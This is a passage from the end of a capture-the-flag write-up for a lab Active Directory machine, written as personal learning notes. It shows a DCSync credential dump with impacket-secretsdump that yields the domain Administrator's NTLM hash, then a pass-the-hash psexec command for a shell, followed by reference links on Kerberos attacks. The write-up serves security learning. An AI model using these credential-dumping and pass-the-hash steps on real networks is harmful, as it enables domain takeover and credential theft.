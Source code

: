 ```
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : EGOTISTICALBANK\svc_loanmgr
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

### Dumping Secrets

Impacketo

`impacket-secretsdump -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
<SNIP>
[*] Cleaning up...
```

### Passing The Hash

Impacket-psexec get cmd

`./psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff`

you need admin share - https://adamtheautomator.com/psexec-ultimate-guide/ - write access?

# Ending Thoughts

This was my first Active Directory box. It spurred me to learn a lot more about Active Directory and Kerberos. It is a very educational box for me.

*References*

staffname format
ad Permissions
dcsync with impacket
PTH

Kerberos and AS-REP Roasting

* https://www.tarlogic.com/en/blog/how-kerberos-works/
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#as-rep-roasting
* https://docs.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets
* https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

evil-winrm
https://hacks.biz/evilwinrm-the-ultimate-winrm-shell-for-pentesting/
